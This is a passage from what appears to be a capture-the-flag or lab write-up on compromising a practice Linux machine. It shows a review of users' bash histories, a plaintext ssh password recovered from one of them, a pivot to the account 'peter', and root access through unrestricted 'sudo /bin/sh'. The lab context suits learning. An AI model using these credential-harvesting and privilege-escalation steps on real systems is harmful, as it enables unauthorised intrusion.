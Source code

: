     exit
    /home/SHAY/.bash_history
    exit
    /home/ETollefson/.bash_history
    exit
    /home/IChadwick/.bash_history
    exit
    /home/LSolum2/.bash_history
    exit
    whoami
    /home/SStroud/.bash_history
    exit
    /home/LSolum/.bash_history
    exit
    /home/NATHAN/.bash_history
    exit
    /home/zoe/.bash_history
    top
    exit

*User* `JKanode` is not good with secrets as we discovered an ssh login and password



    sshpass -p thisimypassword ssh JKanode@localhost
    apt-get install sshpass
    sshpass -p JZQuyIN5 peter@localhost

Pivoting to different ssh user
Login as Peter

    ssh peter@192.168.56.108

Test what peter is capable of

    sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550945016940_image.png)


Peter happens to be able to do `(ALL : ALL) ALL` well this can be used to our benefit.


# PRIV-ESC/ROOT

Lets have peter call /bin/sh with sudo

    sudo /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550945230850_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550945257578_image.png)


Bring me the root!

-exec

